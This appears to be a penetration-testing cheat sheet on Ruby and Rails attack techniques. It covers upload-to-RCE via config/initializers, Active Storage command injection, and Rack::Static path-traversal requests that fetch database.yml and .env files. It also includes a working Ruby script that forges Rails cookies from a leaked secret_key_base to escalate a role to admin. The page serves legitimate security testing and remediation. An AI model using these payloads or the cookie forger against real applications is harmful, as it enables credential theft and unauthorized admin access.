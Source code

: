 # Ruby Tricks


## File upload to RCE

As explained in [[https://www.offsec.com/blog/cve-2024-46986/|this article]], uploading a `.rb` file into sensitive directories such as `config/initializers/` can lead to remote code execution (RCE) in Ruby on Rails applications.

Tips:
- Other boot/eager-load locations that are executed on app start are also risky when writeable (e.g., `config/initializers/` is the classic one). If you find an arbitrary file upload that lands anywhere under `config/` and is later evaluated/required, you may obtain RCE at boot.
- Look for dev/staging builds that copy user-controlled files into the container image where Rails will load them on boot.

## Active Storage image transformation → command execution (CVE-2025-24293)

When an application uses Active Storage with `image_processing` + `mini_magick`, and passes untrusted parameters to image transformation methods, Rails versions prior to 7.1.5.2 / 7.2.2.2 / 8.0.2.1 could allow command injection because some transformation methods were mistakenly allowed by default.

- A vulnerable pattern looks like:
  ```erb
  <%= image_tag blob.variant(params[:t] => params[:v]) %>
  ```
  where `params[:t]` and/or `params[:v]` are attacker-controlled.

- What to try during testing
  - Identify any endpoints that accept variant/processing options, transformation names, or arbitrary ImageMagick arguments.
  - Fuzz `params[:t]` and `params[:v]` for suspicious errors or execution side-effects. If you can influence the method name or pass raw arguments that reach MiniMagick, you may get code exec on the image processor host.
  - If you only have read-access to generated variants, attempt blind exfiltration via crafted ImageMagick operations.

- Remediation/detections
  - If you see Rails < 7.1.5.2 / 7.2.2.2 / 8.0.2.1 with Active Storage + `image_processing` + `mini_magick` and user-controlled transformations, consider it exploitable. Recommend upgrading and enforcing strict allowlists for methods/params and a hardened ImageMagick policy.

## Rack::Static LFI / path traversal (CVE-2025-27610)

If the target stack uses Rack middleware directly or via frameworks, versions of `rack` prior to 2.2.13, 3.0.14, and 3.1.12 allow Local File Inclusion via `Rack::Static` when `:root` is unset/misconfigured. Encoded traversal in `PATH_INFO` can expose files under the process working directory or an unexpected root.

- Hunt for apps that mount `Rack::Static` in `config.ru` or middleware stacks. Try encoded traversals against static paths, for example:
  ```text
  GET /assets/%2e%2e/%2e%2e/config/database.yml
  GET /favicon.ico/..%2f..%2f.env
  ```
  Adjust the prefix to match configured `urls:`. If the app responds with file contents, you likely have LFI to anything under the resolved `:root`.

- Mitigation: upgrade Rack; ensure `:root` only points to a directory of public files and is explicitly set.

## Forging/decrypting Rails cookies when `secret_key_base` is leaked

Rails encrypts and signs cookies using keys derived from `secret_key_base`. If that value leaks (e.g., in a repo, logs, or misconfigured credentials), you can usually decrypt, modify, and re-encrypt cookies. This often leads to authz bypass if the app stores roles, user IDs, or feature flags in cookies.

Minimal Ruby to decrypt and re-encrypt modern cookies (AES-256-GCM, default in recent Rails):
```ruby
require 'cgi'
require 'json'
require 'active_support'
require 'active_support/message_encryptor'
require 'active_support/key_generator'

secret_key_base = ENV.fetch('SECRET_KEY_BASE_LEAKED')
raw_cookie = CGI.unescape(ARGV[0])

salt   = 'authenticated encrypted cookie'
cipher = 'aes-256-gcm'
key_len = ActiveSupport::MessageEncryptor.key_len(cipher)
secret  = ActiveSupport::KeyGenerator.new(secret_key_base, iterations: 1000).generate_key(salt, key_len)
enc     = ActiveSupport::MessageEncryptor.new(secret, cipher: cipher, serializer: JSON)

plain = enc.decrypt_and_verify(raw_cookie)
puts "Decrypted: #{plain.inspect}"

# Modify and re-encrypt (example: escalate role)
plain['role'] = 'admin' if plain.is_a?(Hash)
forged = enc.encrypt_and_sign(plain)
puts "Forged cookie: #{CGI.escape(forged)}"
```
```Notes:
- Older apps may use AES-256-CBC and salts `encrypted cookie` / `signed encrypted cookie`, or JSON/Marshal serializers. Adjust salts, cipher, and serializer accordingly.
- On compromise/assessment, rotate `secret_key_base` to invalidate all existing cookies.

## See also (Ruby/Rails-specific vulns)

- Ruby deserialization and class pollution:
  [[../../pentesting-web/deserialization/README.md]]
  [[../../pentesting-web/deserialization/ruby-class-pollution.md]]
  [[../../pentesting-web/deserialization/ruby-_json-pollution.md]]
- Template injection in Ruby engines (ERB/Haml/Slim, etc.):
  [[../../pentesting-web/ssti-server-side-template-injection/README.md]]


## References

- Rails Security Announcement: CVE-2025-24293 Active Storage unsafe transformation methods (fixed in 7.1.5.2 / 7.2.2.2 / 8.0.2.1). https://discuss.rubyonrails.org/t/cve-2025-24293-active-storage-allowed-transformation-methods-potentially-unsafe/89670
- GitHub Advisory: Rack::Static Local File Inclusion (CVE-2025-27610). https://github.com/advisories/GHSA-7wqh-767x-r66v

